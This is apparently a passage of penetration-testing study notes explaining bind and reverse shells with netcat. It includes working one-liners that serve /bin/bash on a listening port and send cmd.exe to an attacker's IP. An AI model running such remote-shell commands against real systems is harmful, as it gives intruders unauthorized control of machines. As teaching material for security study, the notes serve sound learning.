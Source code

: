 ```bash
# Target Linux machine - Bind shell listener with executable cmd.exe
nc -nvlp 1234 -c /bin/bash

# Attacker Win machine
nc.exe -nv 10.10.24.2 1234
```

![Bind Shell - Linux](.gitbook/assets/image-20230423222515800.png)

### Reverse Shells

![Reverse Shell - geeksforgeeks.org](.gitbook/assets/Reverseshell-660x309.png)

🗒️ **Reverse Shell** - a remote shell where *the target connects to a listener running on the attacker's system* (**`e.g.`** Metasploit Meterpreter).

- *Reverse shells advantages*:
  - The connection can be initialized without `netcat` too
  - Outgoing traffic may not be blocked by firewalls

- *Reverse shells issues*:
  - used exploit have to know the attacker's IP
  - the attacker's IP can be logged as malicious or present in the exploit file

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Win machine
nc.exe -nv 10.10.18.3 1234 -e cmd.exe
```
